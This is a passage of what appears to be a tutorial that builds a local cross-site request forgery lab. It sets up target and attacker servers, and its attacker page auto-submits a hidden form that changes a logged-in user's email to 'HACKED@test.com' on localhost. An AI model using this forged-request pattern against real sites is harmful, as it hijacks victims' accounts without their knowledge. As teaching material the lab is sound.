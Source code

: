     - Add .gitignore file

      ```bash
        # cd apps/attack-server
        touch .gitignore
        node --eval "fs.writeFileSync('.gitignore', 'node_modules\n')"
      ```

    - Add dev dependencies

      ```bash
        # cd apps/targeattackt-server 
        pnpm i serve
      ```
    - Add package.json scrpts

      ```bash
        # cd apps/target-server 
        npm pkg set scripts.dev="serve -l 5555 ./src/index.html"
        npm pkg set scripts.dev:a="serve -l 5555 ./src/index_01.html"
        npm pkg set scripts.dev:b="serve -l 5555 ./src/index_02.html"
      ```

  
  - First attack form

    - Create an apps/attack-server/src/index.html file

      ```html
        <!DOCTYPE html>
        <html lang="en">
        <head>
          <meta charset="UTF-8">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>Attacker WebSite</title>
        </head>
        <body>
          <div>
            <h1>Some nice website</h1>
            <form name="form" action='http://localhost:3333/login/edit' method='post'>
              <input type='hidden' name='email' value='HACKED@test.com' />
            </form>
          </div>
          <script>
            document.form.submit()
          </script>
        </body>
        </html>
      ```
